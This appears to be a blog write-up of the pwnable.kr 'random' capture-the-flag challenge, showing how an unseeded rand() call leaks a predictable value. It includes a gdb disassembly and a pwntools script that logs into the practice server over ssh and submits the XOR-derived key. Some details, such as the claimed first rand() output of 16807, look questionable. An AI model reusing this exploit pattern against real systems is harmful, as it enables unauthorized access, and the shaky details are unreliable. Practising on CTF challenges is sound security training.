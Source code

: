 ```yaml
---
layout: post
title: "Basic Bad 'Random' Number Generator Vulnerability"
excerpt: "pwnable.kr challenge: random"
categories: [pwn practice]
---
```


> Daddy, teach me how to use random value in programming!
>
> ssh random@pwnable.kr -p2222 (pw: guest)

### Given
All we're given in this is a ssh login command, and it's password
* `ssh random@pwnable.kr -p2222 (pw:guest)`

The text hint implies it's going to be a vuln that has to deal with using "random" values in a program -- maybe bad/predictable seeding?

### First, lets get on the box

```bash
...
random@pwnable:~$
```

### Look around

```bash
...
-rw-r--r--   1 root       root    301 Jun 30  2014 random.c
-r-sr-x---   1 random_pwn random 8538 Jun 30  2014 random
-r--r-----   1 random_pwn root     49 Jun 30  2014 flag
...
```

So, we see a `random` executable and it's source code (again, how nice).

### Execute it

```bash
./random
<just sits here, try some input>
AAAAAAAAAAAAAAAAAA
Wrong, maybe you should try 2^32 cases.
```

2^32 cases -- so, sounds like it must be looking for a number, since thats the number of possible ints?

### Examine (given) source

```c
#include <stdio.h>

int main(){
	unsigned int random;
	random = rand();	// random value!

	unsigned int key=0;
	scanf("%d", &key);

	if( (key ^ random) == 0xdeadbeef ){
		printf("Good!\n");
		system("/bin/cat flag");
		return 0;
	}

	printf("Wrong, maybe you should try 2^32 cases.\n");
	return 0;
}
```

OK - one function, just `main`

### `main`

Declares an `unsigned int` for the variable `random`. Then it assings random to a "random" value using `rand()` (with no previous seed, at all, so it's just getting the default value)

OK - looks like we already found the vulnerability. This "random" value is actually not random at all, since there is no random seed. Essentially, everytime this program is called, it'll generate the same "random" numbers, since it justs uses `rand()` and not even a static pre-seed, so it's getting the default value, [which for c rand() is 1](https://linux.die.net/man/3/rand).

So - if we just make our own program like so:

```c
#include <stdio.h>

int main(){
	unsigned int random;
	random = rand();	// random value!
	printf("haax: %d\n", random);
	return 0;
}
```

And then compile it and run it:

```
./myrand
haax: 16807

./myrand
haax: 16807

./myrand
haax: 16807
```
For ever and ever, since it's always getting the same preseed: `1`. So if we do this on the machine where the executable lives, we can know what the first "random" value it will generate, so we know the value of `random`.

Though, this is only useful if we can compile and run our own program on the remote server, which we can't. So, instead we can start the program on the remote server in `peda` and find where the "random" value is getting stored in memory. Then, we can inspect the value at that address, and find our "random" number.

```
peda random
gdb-peda$ disas main
Dump of assembler code for function main:
   0x00000000004005f4 <+0>:	push   rbp
   0x00000000004005f5 <+1>:	mov    rbp,rsp
   0x00000000004005f8 <+4>:	sub    rsp,0x10
   0x00000000004005fc <+8>:	mov    eax,0x0
   0x0000000000400601 <+13>:	call   0x400500 <rand@plt>
   0x0000000000400606 <+18>:	mov    DWORD PTR [rbp-0x4],eax
   0x0000000000400609 <+21>:	mov    DWORD PTR [rbp-0x8],0x0
   0x0000000000400610 <+28>:	mov    eax,0x400760
   0x0000000000400615 <+33>:	lea    rdx,[rbp-0x8]
   0x0000000000400619 <+37>:	mov    rsi,rdx
   0x000000000040061c <+40>:	mov    rdi,rax
   0x000000000040061f <+43>:	mov    eax,0x0
   0x0000000000400624 <+48>:	call   0x4004f0 <__isoc99_scanf@plt>
   0x0000000000400629 <+53>:	mov    eax,DWORD PTR [rbp-0x8]
   0x000000000040062c <+56>:	xor    eax,DWORD PTR [rbp-0x4]
   0x000000000040062f <+59>:	cmp    eax,0xdeadbeef
   0x0000000000400634 <+64>:	jne    0x400656 <main+98>
   0x0000000000400636 <+66>:	mov    edi,0x400763
   0x000000000040063b <+71>:	call   0x4004c0 <puts@plt>
   0x0000000000400640 <+76>:	mov    edi,0x400769
   0x0000000000400645 <+81>:	mov    eax,0x0
   0x000000000040064a <+86>:	call   0x4004d0 <system@plt>
   0x000000000040064f <+91>:	mov    eax,0x0
   0x0000000000400654 <+96>:	jmp    0x400665 <main+113>
   0x0000000000400656 <+98>:	mov    edi,0x400778
   0x000000000040065b <+103>:	call   0x4004c0 <puts@plt>
   0x0000000000400660 <+108>:	mov    eax,0x0
   0x0000000000400665 <+113>:	leave
   0x0000000000400666 <+114>:	ret
End of assembler dump.
break * 0x0000000000400610
Breakpoint 1 at 0x400610
r
...
Breakpoint 1, 0x0000000000400610 in main ()
```

Now, if we check the registers:

```
gdb-peda$ x/x ($rbp-0x4)
0x7fffffffe5ec:	0x004006706b8b4567 # this is our "random" number
```

So, in order to find what we need to input, we have to take the inverse of XOR, which is... just XOR:

```
a ^ b == 0xdeadbeef
a ^ 0x004006706b8b4567 == 0xdeadbeef
a = 0x004006706b8b4567 ^ 0xdeadbeef
```

In python:

```python
>>> 0x004006706b8b4567 ^ 0xdeadbeef
18021479654816648
```

Let's try it out...

`random_pwn.py`:

```python3
#!/usr/bin/python
from pwn import *

# Our payload to XOR with the "Random" value to get 0xdeadbeef
payload = '18021479654816648'

# Start a new ssh session to the box:
session = ssh(host='pwnable.kr', user='random', password='guest', port=2222)
assert session.connected()

# Execute ./random on the session:
process = session.process(executable='./random')

# Send our payload to it, since it'll expect us to enter the value to STDIN:
process.sendline(payload)
while 1<2:
    try:
        print(process.recvlineS())
    except EOFError as e:
        break
```

Running it:

```
python3 random_pwn.py
[+] Connecting to pwnable.kr on port 2222: Done
[*] random@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process './random' on pwnable.kr: pid 173346
b'Good!\n'
b'Mommy, I thought libc random is unpredictable...\n'
```

Sweet! Flag is `Mommy, I thought libc random is unpredictable...`

For this code, see my [Git repo](https://github.com/bigpick/pwnable.kr) for pwnable.kr practice code.
